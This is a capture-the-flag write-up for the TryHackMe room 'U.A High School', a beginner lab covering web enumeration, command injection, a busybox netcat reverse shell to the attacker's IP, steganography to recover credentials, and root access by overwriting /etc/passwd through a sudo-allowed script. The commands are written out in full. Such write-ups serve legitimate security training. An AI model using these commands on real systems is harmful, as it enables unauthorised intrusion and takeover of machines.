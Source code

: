 ```yaml
---
title: "U.A High School"
description: Writeup of the TryHackMe challenge U.A High School
date: 2024-10-28 00:00:00 +0000
categories: [THM, Writeup]
tags: [ctf, linux, web, thm, writeup, nmap, ssh, hexeditor, xxd, gobuster]
pin: true
math: true
mermaid: true
comments: true
media_subpath: /images/UAHS
img_path: /images/UAHS
image:
  path: oneforall.jpg
---
```


 This is a walkthrough of the TryHackMe room [U.A High School](https://tryhackme.com/room/uahighschool) by [DarkStar7471](https://tryhackme.com/p/DarkStar7471). This is a beginner level room and is a great way to practice web enumeration and basic linux privilege escalation.

<!-- markdownlint-capture -->
<!-- markdownlint-disable -->
> Objectives: Find the user and root flags
{: .prompt-info }
> Useful Tools: `NMAP`, `Gobuster`, `SSH`, `Hexeditor`
{: .prompt-tip }
<!-- markdownlint-restore -->

## Enumeration/Reconnaissance

### Scanning
Like any challenge, it is important to first do some enumeration to understand what services are running on the target machine. There are many ways to do this, such as port scanning with `NMAP`, or fuzzing directories to find hidden locations. In this case, I will be using a custom `Python` script to automate this process while we manually examine the target. I created this tool, and will be releasing it soon on my [GitHub](https://github.com/Z3R0-sec). This script just runs `NMAP` and `Gobuster` in the background and displays the results in a simple format. Below are the results of the scan:

![Screenshot](Screenshot_2.png){: width="972" height="589" .w-50 .normal}
![Screenshot](Screenshot_4.png){: width="972" height="589" .w-50 .normal}  

### Checking out the Website
We only see two ports open, `22` and `80`. There is also an `/assets`{: .filepath} directory that we will visit later. For now, let's walk the website and see what we can find.

![Screenshot](Screenshot_1.png){: width="972" height="589" .w-50 .normal}![Screenshot](Screenshot_3.png){: width="972" height="589" .w-50 .normal} 

We are greeted with a basic website and limited functionality. Most of the links don't work, but there is a contact page with a form we can will out. I initially thought it might be weak to some form of command injection, but after running a few tests, there was nothing to be found. I then decided to run another `Gobuster` on the website to see if there were any hidden directories or files in the `/assets`{: .filepath} directory.

### Gobuster ... Again
I ran `Gobuster` on the `/assets`{: .filepath} directory using the following command:
  
  ```shell
  gobuster dir -u http://<Target_IP>/assets -w /usr/share/wordlists/dirb/big.txt -t 150 -x php,txt,html
  ``` 

![Screenshot](Screenshot_6.png){: width="972" height="589" }

## Dirsearch and Finding a Vulnerability
This returned a few files, but the one that caught my eye was `index.php`, which had a status code of 200. This is why it is important to indicate file types using the `-x` flag. From this point, I wasn't able to find anything of use, so I decided to use another tool, `dirsearch`, to see if I could find anything else. `Dirsearch` is a great tool for finding 
potentially hidden directories and files on a website, using its extensive wordlist. Let's use this on the `index.php` file we found earlier:

  ```shell
  dirsearch -u http://<Target_IP>/assets/index.php 
  ```
![Screenshot](Screenshot_7.png){: width="972" height="589" }

There is a strange result: `/assets/index.php/p_/webdav/xmltools/minidom/xml/sax/saxutils/os/popen2?cmd=dir`{: .filepath}. This looks like potentially a command injection vulnerability. Let's try to exploit this. We can do this either in the terminal using `curl` or `wget`, or we can use a browser. As shown below, I used curl, but the results returned are encoded using `base64`. We can decode this using `base64 -d`{: .filepath}. Running the folllowing commands will verify that we have command injection:

  ```shell
  curl http://<Target_IP>/assets/index.php/p_/webdav/xmltools/minidom/xml/sax/saxutils/os/popen2?cmd=dir | base64 -d
  ```
   ```shell
  curl http://<Target_IP>/assets/index.php/p_/webdav/xmltools/minidom/xml/sax/saxutils/os/popen2?cmd=pwd | base64 -d
  ```
![Screenshot](Screenshot_25.png){: width="972" height="589" }
![Screenshot](Screenshot_10.png){: width="972" height="589" }

We can see a directory listing and changing the end of the string to `pwd`{: .filepath} successfully runs, which indicates that we have command injection.

## Exploiting Command Injection and Gaining a Shell
Knowing that we have command injection, we can now try to get a reverse shell. After checking if `busybox` is installed, I set up a `netcat` listener on my machine and navigated to this URL:

  ```shell
  curl http://<Target_IP>/assets/index.php/p_/webdav/xmltools/minidom/xml/sax/saxutils/os/popen2?cmd=busybox%20nc%20<Your_IP>%20<Your_Port>%20-e%20/bin/sh
  ```
![Screenshot](Screenshot_11.png){: width="972" height="589" }

## Initial Access
We now have our shell, lets upgrade the shell and investigate the system further.
![Screenshot](Screenshot_12.png){: width="972" height="589" }

### Following the Crumbs
We find a directory called `Hidden_Content`{: .filepath} with a file inside called `passphrase.txt`{: .filepath}. This contained another encoded string, which we can decode using `base64 -d`{: .filepath}. This revealed a password, which we will need later.

![Screenshot](Screenshot_13.png){: width="972" height="589" }

I should mention there was an unused image titled `oneforall.jpg`{: .filepath} in the `/assets`{: .filepath} directory. Using `xxd` to examine the image file, we can see that it is actually a PNG file. We can alter the [magic numbers](https://gist.github.com/leommoore/f9e57ba2aa4bf197ebc5)[^1] to convert it back to a PNG file and view the image, or if needed, extract any files or text that were hidden using Stegnography. This is a common technique used to hide files in plain sight.

![Screenshot](Screenshot_14.png){: width="972" height="589" }

After changing the filetype, we can then use `steghide` to extract any hidden files. We were able to make use of the passphrase we found earlier to extract the hidden file. Viewing the `creds.txt`{: .filepath} file, we find a username and password.

![Screenshot](Screenshot_16.png){: width="972" height="589" }

### SSH Access and User Flag
With the credentials we found, we can now SSH into the machine and grab the user flag:

  ```shell
  ssh <username>@<Target_IP>
  ```

![Screenshot](Screenshot_18.png){: width="972" height="589" }

## Privilege Escalation
After logging in, we can see that we are in a restricted shell. We can check the permissions of the user by running `sudo -l`{: .filepath}. This will show us what commands we can run as sudo. There is a script called `feedback.sh`{: .filepath} that can possibly be altered to give us a root shell.

![Screenshot](Screenshot_20.png){: width="972" height="589" }

Let's check the contents of the script:

![Screenshot](Screenshot_21.png){: width="972" height="589" }

The script takes user input and is able to write to files. I tested this by running the script and writing to a file in the `/tmp`{: .filepath} directory. We can use this to create and add a new user with the SUID bit set, which will allow us to run commands as root when we log in as that new user. Back on my host machine, I created a password hash for the new user in the proper format using the following command:

  ```shell
  mkpasswd -m md5crypt -s
 <password>
  ```
![Screenshot](Screenshot_22.png){: width="972" height="589" }

### Root Flag
We can then prepend the username we want to use, run the script back in the SSH session, and add the following line to the prompt to add the new user to the system:

  ```shell
  newuser:passwordhash:0:0:root:/root:/bin/bash > /etc/passwd
  ```
![Screenshot](Screenshot_23.png){: width="972" height="589" }

We can then log in as the new user and grab the root flag:

![Screenshot](Screenshot_24.png){: width="972" height="589" }

# Conclusion
This was a fun room that required a bit of enumeration and some basic exploitation techniques. We were able to find a command injection vulnerability, exploit it to gain a shell, and then escalate our privileges to root. This room is great for beginners and is a good way to practice web enumeration and basic privilege escalation techniques. 

### Useful Resources

[^1]: Source: [Magic Numbers](https://gist.github.com/leommoore/f9e57ba2aa4bf197ebc5)